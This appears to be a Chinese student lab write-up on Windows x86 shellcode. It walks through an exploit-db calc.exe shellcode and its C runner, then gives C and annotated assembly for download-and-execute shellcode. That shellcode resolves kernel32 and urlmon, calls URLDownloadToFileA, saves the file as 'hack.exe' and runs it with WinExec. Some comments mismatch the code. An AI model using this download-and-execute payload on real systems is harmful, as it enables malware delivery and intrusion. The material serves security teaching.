



# 实验06 Shellcode

### 详细阅读 [www.exploit-db.com](http://www.exploit-db.com) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。

Windows/x86 - Null-Free WinExec Calc.exe Shellcode

- 打开计算器

```C
#include <windows.h>
#include <stdio.h>
char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv) //运行上面的code
{
    int (*func)();
    func = (int(*)()) code;
    (int)(*func)();
}
```

- 运行结果

  

  在运行 (int)(*func)() 时出错

- 解决：VirtualProtect修改内存保护属性

  - PAGE_EXECUTE_READWRITE 表示这段内存，是可读可写可执行。

  ```C
  int main(int argc, char** argv)
  {
    int (*func)();
    DWORD dwOldProtect;
    func = (int(*)()) code;
    VirtualProtect(func, sizeof(code),PAGE_EXECUTE_READWRITE, &dwOldProtect);
    (int)(*func)();
  }
  ```

- 再次执行，应该是可以成功了，但是我这里还是报同样的错……

## 下载执行 shellcode

```C
#include <stdio.h>
#include <Urlmon.h>
#include <stdlib.h>
#pragma comment(lib,"Urlmon.lib")

int main()
{
    if (URLDownloadToFileA(NULL, "https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe", "e:\\test.exe", 0, 0) == S_OK)
    {
        printf("URLDownloadToFile OK\n");
        system("e:\\test.exe");
    }
    else
    {
        printf("URLDownloadToFile Fail,Error:%d\n", GetLastError());
    }
}
```





### 转化成shellcode

##### System函数

System函数的内存地址在每台机器不一样。

获取DLL内存地址的代码，以获取DLL中导出函数System

```c
#include "windows.h"
#include "stdio.h"

int main()
{
    HINSTANCE LibHandle = LoadLibrary("msvcrt.dll"); //要获取DLL的内存地址
    printf("msvcrt Address = 0x%x \n",LibHandle);
    LPTSTR getaddr = (LPTSTR)GetProcAddress(LibHandle, "system"); //获取DLL中导出函数地址
    printf(“system Address = 0x%x \n", getaddr);

    getchar();
    return 0;
}
```

### 文件下载执行

- 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

  - 找到`kernel32.dll`的基址

    ```
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```

  - `kernel32.dll`导出表的地址

    ```
    ; Find the address of the Export Table within kernel32.dll
     mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader
     add ebx, eax            ; EBX = &NewEXEHeader
     mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable
     add ebx, eax            ; EBX = &ExportTable
     ; Find the address of the Name Pointer Table within kernel32.dll
     mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable
     add edi, eax            ; EDI = &NamePointerTable
     mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame
    
    ; Find the address of the Ordinal Table
     mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable
     add ecx, eax            ; ECX = &OrdinalTable
     mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame
    
    ; Find the address of the Address Table
     mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable
     add edx, eax            ; EDX = &AddressTable
     mov [ebp-0x10], edx     ; save &AddressTable to stack-frame
    
    ; Find Number of Functions within the Export Table of kernel32.dll
     mov edx, [ebx+0x14]     ; EDX = Number of Functions
     mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame
    ```

  - 找到函数的入口点

    ```
    jmp short functions
    
    findFunctionAddr:
    ; Initialize the Counter to prevent infinite loop
     xor eax, eax            ; EAX = Counter = 0
     mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
    ; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
    searchLoop:
     mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
     mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
     xor ecx, ecx            ; ECX = 0x00000000
     cld                     ; clear direction flag - Process strings from left to right
     mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
     add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
     add cx, 0xF             ; ECX = len("GetProcAddress,0x00") = 15 = 14 char + 1 Null
     repe cmpsb              ; compare first 8 bytes of [&NameString] to "GetProcAddress,0x00"
     jz found                ; If string at [&NameString] == "GetProcAddress,0x00", then end loop
     inc eax                 ; else Counter ++
     cmp eax, edx            ; Does EAX == Number of Functions?
     jb searchLoop           ;   If EAX != Number of Functions, then restart the loop
    
    found:
    ; Find the address of WinExec by using the last value of the Counter
     mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
     mov edx, [ebp-0x10]     ; EDX = &AddressTable
     mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber      = [&OrdinalTable + (Counter*2)]
     mov eax, [edx + eax*4]  ; EAX = RVA GetProcAddress = [&AddressTable + ordinalNumber]
     add eax, [ebp-0x4]      ; EAX = &GetProcAddress    = RVA GetProcAddress + &kernel32.dll
     ret
    
    functions:
    # Push string "GetProcAddress",0x00 onto the stack
     xor eax, eax            ; clear eax register
     mov ax, 0x7373          ; AX is the lower 16-bits of the 32bit EAX Register
     push eax                ;   ss : 73730000 // EAX = 0x00007373 // \x73=ASCII "s"      
     push 0x65726464         ; erdd : 65726464 // "GetProcAddress"
     push 0x41636f72         ; Acor : 41636f72
     push 0x50746547         ; PteG : 50746547
     mov [ebp-0x18], esp      ; save PTR to string at bottom of stack (ebp)
     call findFunctionAddr   ; After Return EAX will = &GetProcAddress
    # EAX = &GetProcAddress
     mov [ebp-0x1C], eax      ; save &GetProcAddress
    
    ; Call GetProcAddress(&kernel32.dll, PTR "LoadLibraryA"0x00)
     xor edx, edx            ; EDX = 0x00000000
     push edx                ; null terminator for LoadLibraryA string
     push 0x41797261         ; Ayra : 41797261 // "LoadLibraryA",0x00
     push 0x7262694c         ; rbiL : 7262694c
     push 0x64616f4c         ; daoL : 64616f4c
     push esp                ; $hModule    -- push the address of the start of the string onto the stack
     push dword [ebp-0x4]    ; $lpProcName -- push base address of kernel32.dll to the stack
     mov eax, [ebp-0x1C]     ; Move the address of GetProcAddress into the EAX register
     call eax                ; Call the GetProcAddress Function.
     mov [ebp-0x20], eax     ; save Address of LoadLibraryA 
    ```

  - 通过刚刚得到的`LoadLibraryA`函数入口，加载`urlmon.dll`

    ```
    ; Call LoadLibraryA(PTR "urlmon")
    ;   push "msvcrt",0x00 to the stack and save pointer
     xor eax, eax            ; clear eax
     mov ax, 0x7472          ; tr : 7472
     push eax
     push 0x6376736D         ; cvsm : 6376736D
     push esp                ; push the pointer to the string
     mov ebx, [ebp-0x20]     ; LoadLibraryA Address to ebx register
     call ebx                ; call the LoadLibraryA Function to load urlmon.dll
     mov [ebp-0x24], eax     ; save Address of urlmon.dll
    ```

  - 通过`urlmon.dll`获得`URLDownloadToFileA`的入口地址

    ```
    ; Call GetProcAddress(urlmon.dll, "URLDownloadToFileA")
    xor edx, edx
    mov dx, 0x4165          ; Ae
    push edx
    push 0x6C69466F         ; liFo
    push 0x5464616F         ; Tdao
    push 0x6C6E776F         ; lnwo
    push 0x444c5255         ; DLRU
    push esp    		; push pointer to string to stack for 'URLDownloadToFileA'
    push dword [ebp-0x24]   ; push base address of urlmon.dll to stack
    mov eax, [ebp-0x1C]     ; PTR to GetProcAddress to EAX
    call eax                ; GetProcAddress
    ;   EAX = WSAStartup Address
    mov [ebp-0x28], eax     ; save Address of urlmon.URLDownloadToFileA
    ```

  - 使用该函数

    ```
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```

  - 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序

    ```
    Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits
    push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```